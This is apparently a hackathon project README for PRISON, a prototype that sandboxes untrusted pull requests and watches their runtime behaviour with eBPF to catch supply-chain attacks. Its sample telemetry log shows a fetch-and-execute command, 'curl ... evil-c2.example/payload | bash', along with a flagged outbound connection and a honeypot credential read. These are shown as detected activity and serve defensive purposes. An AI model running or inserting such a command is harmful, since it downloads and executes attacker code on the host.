

# PRISON

## Pull Request Isolation & Security Observation Network

**A runtime security platform for inspecting untrusted pull requests in isolated environments.**

   

[Problem](#the-problem) · [How it works](#how-it-works) · [Architecture](#architecture) · [Quickstart](#quickstart) · [Technology stack](#technology-stack) · [Security notes](#security-notes)

---

> Static analysis checks what code says. PRISON is designed to inspect what code does at runtime.

PRISON is a prototype for detecting supply-chain threats in pull requests. It combines isolated execution, kernel-level telemetry, decoy credentials, and agent-assisted remediation in one review workflow.

## The Problem

Malicious dependency updates and build scripts can hide their behavior until installation or execution. Obfuscation, lifecycle hooks, credential discovery, and outbound network activity can evade checks that only inspect source code.

## How It Works

1. A pull request is submitted to the PRISON workflow.
2. MANTITUP prepares an isolated execution environment for the submitted code.
3. OSEN observes selected process, file, and network activity using eBPF probes.
4. TRACECOMMON normalizes telemetry into events and process relationships.
5. ANAKIN evaluates the results and can propose a remediation for review.
6. The dashboard presents the run, detected activity, and remediation details.

## Architecture



### Components

| Component | Responsibility |
| --- | --- |
| **MANTITUP** | Coordinates isolated execution environments for pull-request code. |
| **OSEN** | Observes selected kernel and process events, including execution, file access, and network connections. |
| **TRACECOMMON** | Ingests and normalizes telemetry, then builds process and event relationships. |
| **ANAKIN** | Evaluates telemetry and assists with threat triage and patch generation. |
| **Web dashboard** | Displays sandbox activity, threat findings, and remediation workflows. |

## Telemetry Example

```text
[DETECT] MicroVM booted in 118ms (vm-worker-491a)
[TRACE]  execve('/bin/sh', ['-c', 'curl -s https://evil-c2.example/payload | bash'])
[ALERT]  Outbound socket opened: 198.51.100.42:4444 [FLAGGED]
[TRAP]   Honeypot access attempted: AWS_SECRET_ACCESS_KEY
[AGENT]  ANAKIN: Attack validated. PR #42 blocked.
[PATCH]  Proposed remediation: remove the compromised install script
```

The values above illustrate the dashboard workflow; they are not a guarantee of detection coverage or execution performance.

## Technology Stack

| Area | Technologies |
| --- | --- |
| Isolation | AWS Firecracker, Linux KVM, Docker, containerd |
| Observability | eBPF, Linux tracepoints |
| Telemetry and services | Go, Python/FastAPI, Redis, PostgreSQL, OpenTelemetry formats |
| Agent workflows | Python, LangChain, configurable model providers |
| Dashboard | Next.js 14, React, Tailwind CSS |

## Quickstart

### Dashboard Only

Requirements: Node.js 20 or later and npm.

```bash
git clone https://github.com/aritrabhui584-prog/PRISON.git
cd PRISON/apps/web
npm ci
npm run dev
```

Open [http://localhost:3000](http://localhost:3000). The dashboard can run by itself; API-backed workflows require the backend services to be available.

### Full Local Stack

Requirements: Docker Compose. Linux with KVM access is required for Firecracker-backed execution. Docker Desktop and other non-Linux environments may not expose `/dev/kvm`.

From the repository root, start the services:

```bash
docker compose up --build
```

The Compose stack includes PostgreSQL, Redis, telemetry, the orchestrator, and the web dashboard. Open [http://localhost:3000](http://localhost:3000) when the services are healthy.

To stop the stack, run:

```bash
docker compose down
```

## Configuration

Service configuration examples are in [`.env.example`](.env.example). The Compose file also contains local development settings; review and replace development credentials before using the stack in a shared environment. Do not commit real API keys, tokens, or private keys.

## Security Notes

- PRISON is a prototype, not a production security boundary or a substitute for code review and existing security controls.
- Treat pull-request code as untrusted. Run the full stack only on a host configured for disposable, isolated workloads.
- The Compose configuration requests elevated container privileges and maps `/dev/kvm` for the orchestrator. Review these settings before running it.
- eBPF and Firecracker capabilities depend on host kernel, permissions, and virtualization support.

## Project Resources

- [System architecture](system_architecture.md)
- [Product requirements](prd_product_requirements_document.md)
- [Security rules](system_security_rules.md)

---

Built by **ALU POSTO** for **Hackspire '26**.
